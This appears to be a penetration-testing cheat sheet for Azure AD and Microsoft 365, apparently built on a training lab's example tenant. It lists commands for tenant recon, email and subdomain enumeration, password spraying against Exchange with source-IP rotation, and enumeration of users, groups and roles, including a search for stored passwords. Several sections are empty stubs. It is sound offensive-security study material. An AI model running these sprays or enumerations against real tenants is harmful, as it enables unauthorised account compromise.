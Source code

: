 
## Recon
#### Recon Azure Tenant using [AADInternals](https://github.com/Gerenios/AADInternals)
```powershell filename="Powershell" 
# Get tenant name, authentication, brand name (usually same as directory name) and domain name
Get-AADIntLoginInformation -UserName root@defcorphq.onmicrosoft.com

# Get Tenant ID
Get-AADIntTenantID -Domain defcorphq.onmicrosoft.com

# Get Tenant Domain 
Get-AADIntTenantDomains -Domain deffin.onmicrosoft.com

# Get all information
Invoke-AADIntReconAsOutsider -DomainName defcorphq.onmicrosoft.com
```

#### Recon Email IDs using [o365creeper](https://github.com/LMGsec/o365creeper)
```powershell filename="Powershell"
# Enumerate Email IDs by making requests to the `GetCredentialType` API
python.exe o365creeper.py -f emails.txt -o validemails.txt
```

#### Recon Azure Services by [microburst](https://github.com/NetSPI/MicroBurst)
```powershell filename="Powershell"
# Enumerates subdomains by subdomain guessing
Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

## Initial Access

### Password Spray against the exchange service 
<Tabs items={['MailSniper', 'MSOLSpray']}>
    <Tab>
    ```powershell filename="Powershell" copy
    Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password P@ssw0rd -Threads 15 -OutFile owa-sprayed-creds.txt
    Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password P@ssw0rd -Threads 15 -OutFile sprayed-ews-creds.txt
    ```
    </Tab>
     <Tab>
    ```powershell filename="Powershell" copys
    # The tool can use **fireprox** to change source IP
    Invoke-MSOLSpray -UserList validemails.txt -Password 'P@ssw0rd' -Verbose  
    ```
    </Tab>
</Tabs>


## Enumeration
#### User Enumeration
```powershell filename="Powershell"
# Enumerate all users
powershell Get-AzureADUser -All $true

# Enumerate a specific user
Get-AzureADUser -ObjectId 'test@defcorphq.onmicrosoft.com'

# Search for a user based on string in first characters of DisplayName or userPrincipalName (wildcard not supported)
Get-AzureADUser -SearchString "admin"
Get-AzureADUser -All $ |?{$_.Displayname -match "admin"}

# List all attributes for a user
Get-AzureADUser -ObjectId 'test@defcorphq.onmicrosoft.com' | fl *

# Search attributes for all users that contain the string "password"
Get-AzureADUser -All $true|%{$Properties = $_;$Properties.PSObject.Properties.Name |${if ($Properties.$_ -match 'password'){"$($Properties.UserPrincipalName) - $_ - $($Properties.$_)"}}}

# All users who are synced from on prem
Get-AzureADUser -All $true \|? {$_.OnPremisesSecurityIdentifier -ne $null}

# All users who are synced from AzureAD
Get-AzureADUser -All $true \|? {$_.OnPremisesSecurityIdentifier -eq $null}

# Objects created by any user (use -ObjectId for a specific user)
Get-AzureADUser \| Get-AzureADUserCreatedObject
```
#### Group Enumeration
```powershell filename="Powershell"
# List All Groups
Get-AzureADGroup -All $true

# Enumerate a specific group
Get-AzureADGroup -ObjectId 783a312d 0de2 4490 92e4 539b0e4ee03e

# Search for a group based on string in first characters of DisplayName (wildcard not supported)
Get-AzureADGroup -SearchString "admin" \| fl *

# Search for groups which contain the word "admin" in their name
Get-AzureADGroup -All $true \|? {$_.Displayname -match "admin"}

# Get Groups that allow Dynamic membership (Note the cmdlet name)
Get-AzureADMSGroup \|?{$_.GroupTypes -eq 'DynamicMembership'}

# All groups that are synced from on prem (note that security groups are not synced)
Get-AzureADGroup -All $true \|?{$_.OnPremisesSecurityIdentifier -ne $null }

# All groups that are from Azure AD
Get-AzureADGroup -All $true \|?{$_.OnPremisesSecurityIdentifier -eq $null }

# Get group members
Get-AzureADGroupMember -ObjectId 783a312d-0de2-4490-92e4-539b0e4ee03e

# Get groups and roles where the specified user is a member
Get-AzureADUser -SearchString 'test' \| Get-AzureADUserMembership -ObjectId 'test@defcorphq.onmicrosoft.com'
```
#### Role Enumeration
```powershell filename="Powershell"
# Get all available role templates
Get-AzureADDirectoryroleTemplate

# Get all roles
Get-AzureADDirectoryRole

# Enumerate users to whom roles are assigned
Get-AzureADDirectoryRole -Filter "DisplayName" -eq 'GlobalAdministrator' \| Get-AzureADDirectoryRoleMember
```
#### Device Enumeration
```powershell filename="Powershell"

```
#### Apps Enumeration
#### Service Principals Enumeration

### Enumeration Using [ROADTools](https://github.com/dirkjanm/ROADtools)
### Enumeration Using [AzureHound](https://github.com/dirkjanm/ROADtools)
### Enumeratin Using [StormSpotter](https://github.com/Azure/Stormspotter)

